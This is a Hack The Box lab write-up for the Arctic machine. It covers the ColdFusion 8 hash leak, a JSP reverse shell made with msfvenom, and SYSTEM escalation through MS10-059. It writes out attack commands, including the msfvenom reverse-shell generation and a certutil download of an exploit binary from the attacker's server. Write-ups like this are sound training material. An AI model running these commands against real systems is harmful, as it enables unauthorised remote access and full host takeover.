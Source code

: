 ```yaml
---
"title": "Hack The Box - Arctic"
"date": 2020-02-29
"tags": ["windows", "easy", "ms10-059"]
"keywords": ["windows", "easy", "ms10-059"]
"author": "Ghostbyt3"
"description": "We are going to pwn Arctic from Hack The Box."
"featured_image": "/img/htb-arctic/1.png"
"layout": "single"
"showTableOfContents": true
"authorbox": true
"pager": true
"toc": true
"mathjax": true
"sidebar": "right"
"subtitle": "Writeup"
---
```



![Untitled](/img/htb-arctic/1.png)

We are going to pwn Arctic from Hack The Box.

Link : [https://www.hackthebox.eu/home/machines/profile/9](https://www.hackthebox.eu/home/machines/profile/9)


Lets Begin with our Initial Nmap Scan.

## Nmap Scan Results:

```
PORT      STATE SERVICE VERSION
135/tcp   open  msrpc   Microsoft Windows RPC
8500/tcp  open  fmtp?
49154/tcp open  unknown
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose|phone|specialized
Running (JUST GUESSING): Microsoft Windows 8|Phone|2008|7|8.1|Vista (91%)
OS CPE: cpe:/o:microsoft:windows_8 cpe:/o:microsoft:windows cpe:/o:microsoft:windows_server_2008:r2 cpe:/o:microsoft:windows_7 cpe:/o:microsoft:windows_8.1 cpe:/o:microsoft:windows_vista::- cpe:/o:microsoft:windows_vista::sp1
Aggressive OS guesses: Microsoft Windows 8.1 Update 1 (91%), Microsoft Windows Phone 7.5 or 8.0 (91%), Microsoft Windows 7 or Windows Server 2008 R2 (90%), Microsoft Windows Server 2008 R2 (90%), Microsoft Windows Server 2008 R2 or Windows 8.1 (90%), Microsoft Windows Server 2008 R2 SP1 (90%), Microsoft Windows Server 2008 R2 SP1 or Windows 8 (90%), Microsoft Windows 7 (90%), Microsoft Windows 7 Professional or Windows 8 (90%), Microsoft Windows 7 SP1 or Windows Server 2008 R2 (90%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
```

Nmap scan doesn't show whats in port ``8500`` so I started checking that, Which reveals a directory.
![Untitled](/img/htb-arctic/2.png)

``/cfdocs/``[br/](br/)
Some docs files, nothing useful.[br/](br/)
![Untitled](/img/htb-arctic/3.png)

``/CFIDE/``[br/](br/)
![Untitled](/img/htb-arctic/4.png)

Found an ``administrator`` over there and it leads to an login page. Which is ``ColdFusion8`` by Adobe.
![Untitled](/img/htb-arctic/5.png)

Since we know the version we can start looking for exploits and I found this.

>https://www.exploit-db.com/exploits/14641

![Untitled](/img/htb-arctic/6.png)

I tried that payload in the url and it gave me a hash, It will be the admin's hash.
![Untitled](/img/htb-arctic/7.png)

I used [CrackStation](https://crackstation.net/) to do this.
![Untitled](/img/htb-arctic/8.png)

Logged in as admin `` happyday`` 
![Untitled](/img/htb-arctic/10.png)

Now its time to get reverse shell, Under ``Debugging & Logging`` Category I found ``Scheduled Tasks``.[br/](br/)
![Untitled](/img/htb-arctic/11.png)


![Untitled](/img/htb-arctic/12.png)
It gives us an ability to download an file and store it in the box - ``Publish`` but we need to give the directory.
![Untitled](/img/htb-arctic/13.png)

Since ColdFusion running as ``Java`` we need to create a reverse shell using ``jsp``.

> msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.31 LPORT=1234 -f raw > shell.jsp

![Untitled](/img/htb-arctic/14.png)

We need to upload it so, I started Python HTTP server.

![Untitled](/img/htb-arctic/15.png)
![Untitled](/img/htb-arctic/16.png)

Now where to store the script? I found the location of ``ColdFusion`` in ``Server Settings > Mappings``
![Untitled](/img/htb-arctic/17.png)

Now its time to upload the shell!!
![Untitled](/img/htb-arctic/18.png)

Once uploaded I visited ``http://10.10.10.11:8500/CFIDE/`` is where the ``reverse shell`` is stored.
![Untitled](/img/htb-arctic/19.png)

Started my listener and opened ``shell.jsp`` [br/](br/)
![Untitled](/img/htb-arctic/20.png)

Got User Shell and Flag!

## Privilege Escalation:

Like always when I get a shell I start with ``systeminfo`` [br/](br/)
![Untitled](/img/htb-arctic/21.png)

Where Hotfix(s): N/A which means the system is not updated so far.

>A hotfix or quick-fix engineering update is a single, cumulative package that includes information that is used to address a problem in a software product.

So we can try with [Windows-Exploit-Suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester)

I Copied the ``systeminfo`` output to my machine as ``systeminfo.txt`` and start WIndows_Exploit_Suggester.
![Untitled](/img/htb-arctic/22.png)
Since there is a lot of vulnerability, I started with ``MS10-059``.Searched for exploits and found this [Windows_kernel_exploit](https://github.com/egre55/windows-kernel-exploits)
This is the one we need.
> https://github.com/egre55/windows-kernel-exploits/tree/master/MS10-059:%20Chimichurri

Uploaded the executable to the box 

> certutil.exe -urlcache -split -f http://10.10.14.31:8000/Chimichurri.exe Chimichurri.exe

![Untitled](/img/htb-arctic/23.png)

Started my Listener and got AUTHORITY

![Untitled](/img/htb-arctic/24.png)











